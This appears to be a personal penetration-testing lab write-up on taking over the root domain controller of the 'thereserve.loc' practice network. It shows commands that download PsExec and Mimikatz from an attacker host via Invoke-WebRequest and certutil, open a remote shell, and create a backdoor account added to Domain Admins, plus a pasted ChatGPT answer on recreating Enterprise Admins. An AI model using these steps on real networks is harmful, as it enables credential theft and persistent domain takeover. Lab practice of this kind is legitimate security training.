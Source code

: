 # Important
All sessions are under CORPDC rdp session. Through the `misc::cmd` session.

And pretty much none of below worked. The only way here is to reset the root\administrator password & bank\administrator. But not necessary. Especially the CORPDC can do the same in AD GUI after the golden ticket.

# Get flags
```powershell
echo "f52a9c36-4153-4ef9-84dd-1340070486fd" | Set-Content AlvinSmith.txt

mv AlvinSmith.txt \\ROOTDC.thereserve.loc\c$\Users\Administrator\AlvinSmith.txt
```

# Shell
https://github.com/A1vinSmith/pen-200-AD-labs/blob/f89bd05fee844c6f5f1ffddad38d47bfd742d6b8/Exercises/21.5.4/Q3/README.md?plain=1#L17

### PsExec
https://youtu.be/Td_Krk1S3yg?t=3768

```powershell
Invoke-WebRequest -Uri "http://10.200.113.12:9999/PsExec64.exe" -OutFile PsExec64.exe

# Better in powershell
PS C:\users\Administrator\Documents> .\PsExec64.exe \\ROOTDC.thereserve.loc powershell
PS C:\users\Administrator\Documents> .\psexec64.exe \\ROOTDC.thereserve.loc cmd.exe

PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.17763.3287]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
ROOTDC

C:\Windows\system32>whoami
corp\administrator


PS C:\windows\temp\baturu> Get-Module -Name ActiveDirectory
e-oue-aeAtvDrco
ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   1.0.1.0    ActiveDirectory                     {Add-ADCentralAccessPolicyMember, Add-ADComputerServiceAcc...



PS C:\windows\temp\baturu> Import-Module ActiveDirectory

PS C:\windows\temp\baturu> Get-ADDomainController

ComputerObjectDN           : CN=ROOTDC,OU=Domain Controllers,DC=thereserve,DC=loc
DefaultPartition           : DC=thereserve,DC=loc
Domain                     : thereserve.loc
Enabled                    : True
Forest                     : thereserve.loc
HostName                   : ROOTDC.thereserve.loc
InvocationId               : a99e3f11-8027-45c6-80ba-7285f44d7f08
IPv4Address                : 10.200.113.100
IPv6Address                :
IsGlobalCatalog            : True
IsReadOnly                 : False
LdapPort                   : 389
Name                       : ROOTDC
NTDSSettingsObjectDN       : CN=NTDS Settings,CN=ROOTDC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration
                             ,DC=thereserve,DC=loc
OperatingSystem            : Windows Server 2019 Datacenter
OperatingSystemHotfix      :
OperatingSystemServicePack :
OperatingSystemVersion     : 10.0 (17763)
OperationMasterRoles       : {SchemaMaster, DomainNamingMaster, PDCEmulator, RIDMaster...}
Partitions                 : {DC=ForestDnsZones,DC=thereserve,DC=loc, DC=DomainDnsZones,DC=thereserve,DC=loc,
                             CN=Schema,CN=Configuration,DC=thereserve,DC=loc, CN=Configuration,DC=thereserve,DC=loc...}
ServerObjectDN             : CN=ROOTDC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=thereserve,DC
                             =loc
ServerObjectGuid           : e739b012-ff10-4fbe-8d85-1dd362d7a1c2
Site                       : Default-First-Site-Name
SslPort                    : 636

```

# Post Exploitation
### Mimikatz
```powershell
# Get it for root, just like how getting it on the CORPDC
$sourceUrl = "http://10.200.113.12:9999/mimikatz.exe"
Invoke-WebRequest -Uri $sourceUrl -OutFile baturu.exe
```

It didn't work, as we chose the `cmd.exe` for the `psexec`.

```cmd
certutil -urlcache -split -f "http://10.200.113.12:9999/mimikatz.exe" baturu.exe

certutil -urlcache -split -f "http://10.200.113.12:9999/mimikatz.exe" c:\windows\temp\baturu.exe
```

AV deletes them anyway.

### New Admin user on the ROOTDC
The shell has limitation. So go with this
```powershell
$Password = "Pwf41xc89!"
$AccountPassword = ConvertTo-SecureString -AsPlainText $Password -Force

New-ADUser -SamAccountName "batururoot1" -UserPrincipalName "batururoot1@rootdc.thereserve.loc" -Name "Baturu Root" -GivenName "Baturu1" -Surname "Root1" -Enabled $true -PasswordNeverExpires $true -AccountPassword $AccountPassword


cmdlet New-ADUser at command pipeline position 1
Supply values for the following parameters:
Name: batururoot

# Add the user to Domain Admins group
Add-ADGroupMember -Identity "Domain Admins" -Members "batururoot1"

# Add the user to Administrators group
Add-ADGroupMember -Identity "Administrators" -Members "batururoot1"

# Add the user to Enterprise Admins group (optional)
Add-ADGroupMember -Identity "Enterprise Admins" -Members "batururoot1"
# This one not working as expected.
Add-ADGroupMember : Cannot find an object with identity: 'Enterprise Admins' under: 'DC=corp,DC=thereserve,DC=loc'.
At line:1 char:1
+ Add-ADGroupMember -Identity "Enterprise Admins" -Members "batururoot"
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Enterprise Admins:ADGroup) [Add-ADGroupMember], ADIdentityNotFoundException
    + FullyQualifiedErrorId : ActiveDirectoryCmdlet:Microsoft.ActiveDirectory.Management.ADIdentityNotFoundException,Microsoft.ActiveDirector
   y.Management.Commands.AddADGroupMember

Add-ADGroupMember -Identity "Group Policy Creator" -Members "batururoot"
```

##### ChatGPT to get even "Enterprise Admins"
If the "Enterprise Admins" group is missing and you need to create a new one, you can use the following steps:

1. Open an elevated PowerShell session.
2. Import the Active Directory module using the command: `Import-Module ActiveDirectory`.
3. Run the command to create a new security group:
```powershell
New-ADGroup -Name "Enterprise Admins" -SamAccountName "Enterprise Admins" -GroupScope DomainLocal -GroupCategory Security
```
4. Verify that the group was created successfully by running the command:
```powershell
Get-ADGroup -Filter {Name -eq "Enterprise Admins"}
```
5. Once the group is created, you can add the desired user(s) as members using the `Add-ADGroupMember` command:
```powershell
Add-ADGroupMember -Identity "Enterprise Admins" -Members "batururoot1"
```

Please note that creating a new "Enterprise Admins" group should be done with caution, as it grants significant privileges within the Active Directory forest. It is recommended to involve your IT department or Active Directory administrator to ensure proper security and access control measures are followed.